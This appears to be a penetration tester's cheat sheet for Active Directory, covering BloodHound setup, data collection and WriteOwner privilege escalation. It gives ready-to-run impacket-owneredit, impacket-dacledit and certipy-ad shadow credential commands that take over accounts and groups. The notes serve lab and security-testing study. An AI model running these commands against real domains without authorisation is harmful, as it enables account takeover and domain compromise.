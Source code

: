 ## Bloodhound Setup
https://www.kali.org/tools/bloodhound/

```
sudo neo4j start
# go to http://localhost:7474 an change default credentials
bloodhound
# authenticate with the new credentials
```
 ## Data collection
### SharpHound
Only on Windows

### BloodHound.py
https://www.kali.org/tools/bloodhound.py/

```
# -c All to collect everything
bloodhound-python -d <domain> -u <user> -p <password> -ns <DC IP> -c All
```
### Import data
1. In BloodHound GUI → click Upload Data (usually top-right, cloud-upload icon).
2. Select the directory or files → pick all your .json files from BloodHound.py.
3. BloodHound will parse and import the data into Neo4j.
   
 ## Running queries
1. Go through all owned accounts and mark them as owned (RMB -> Mark as owned)
2. Go through all interesting accounts and mark as High value
3. Go through pre-built queries, Click on nodes etc.

## Escalation Paths

### WriteOwner
[User1] --WriteOwner-> [User2/Group2]

https://www.hackingarticles.in/abusing-ad-dacl-writeowner/
```
# User
impacket-owneredit -action write -new-owner '<User1>' -target-dn '<User2 DN copy from BH>' '<domain>'/'<User1>':'<U1 Pass>' -dc-ip <IP>
impacket-dacledit -action write -rights 'FullControl' -principal '<User1>' -target-dn '<User2 DN copy from BH>' '<domain>'/'<User1>':'<U1 Pass>' -dc-ip <IP>
# Group
impacket-owneredit -action write -new-owner '<User1>' -target-dn '<Group2 DN copy from BH>' '<domain>'/'<User1>':'<U1 Pass>' -dc-ip <IP>
impacket-dacledit -action write -rights 'WriteMembers' -principal '<User1>' -target-dn '<Group2 DN copy from BH>' '<domain>'/'<User1>':'<U1 Pass>' -dc-ip <IP>
```
Now either add own account to target group, or reset target account password 
(Reference this link: https://www.hackingarticles.in/abusing-ad-dacl-writeowner/)

In the particalar example the target user was Cert Authority user, so I could do this:

http://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation.html#vulnerable-certificate-template-access-control---esc4
```
certipy-ad shadow auto -u '<user1>@<domain>' -p "<U1 pass>" -account '<User2>' -dc-ip '<IP>' 
```

